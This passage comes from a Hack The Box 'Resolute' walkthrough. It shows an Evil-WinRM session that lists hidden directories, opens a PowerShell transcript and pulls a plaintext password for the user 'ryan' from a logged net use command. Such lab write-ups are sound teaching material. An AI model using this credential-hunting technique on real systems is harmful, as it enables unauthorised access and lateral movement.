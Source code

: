 ![Resolute - HacktheBoxMedium](https://i.ibb.co/tqx0tH0/pic2.png)
Lateral Movement To make a Lateral Movement from this user to another user, I will first go to the directoryC:\
```bash
*Evil-WinRM* PS C:\> dir -force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-         3/9/2024   7:49 PM      402653184 pagefile.sys
```
From this I find a hidden filePSTranscripts
```bash
*Evil-WinRM* PS C:\PSTranscripts> dir -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203


*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt


*Evil-WinRM* PS C:\PSTranscripts\20191203> 
```
we  found several files hidden in this , also a very interesting PSTranscriptsfile . .txtInside we find
```bash
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```
